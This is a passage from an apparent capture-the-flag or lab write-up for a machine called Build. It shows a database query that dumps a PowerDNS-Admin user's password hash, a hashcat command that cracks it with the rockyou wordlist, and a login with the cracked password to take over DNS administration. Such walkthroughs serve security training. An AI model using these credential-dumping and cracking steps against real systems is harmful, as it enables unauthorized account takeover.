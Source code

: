 <http://172.18.0.6/login>

![alt text](../assets/vulnlab/machines/build/img/image-9.png)

It's a [web interface for administering PowerDNS](https://github.com/PowerDNS-Admin/PowerDNS-Admin), which is different from the webserver on port 8081 we saw previously.

In the database there's a hash for the user `admin`:

```shell
MariaDB [powerdnsadmin]> select username,password,email from user;
+----------+--------------------------------------------------------------+----------------+
| username | password                                                     | email          |
+----------+--------------------------------------------------------------+----------------+
| admin    | $2b$12$s1hK0o7YNkJGfu5poWx<REDACTED>                         | admin@build.vl |
+----------+--------------------------------------------------------------+----------------+
1 row in set (0.016 sec)
```

It cracks with `rockyou.txt` and hashcat mode 3200 after a short time:

```shell
└─$ hashcat -a0 -m3200 '$2b$12$s1hK0o7YNkJGfu5poWx<REDACTED>' /usr/share/wordlists/rockyou.txt
...
$2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq:<REDACTED>
```

We can then login to the web interface with the cracked password as `admin` and fully administer the DNS server:

<http://172.18.0.6/dashboard/>
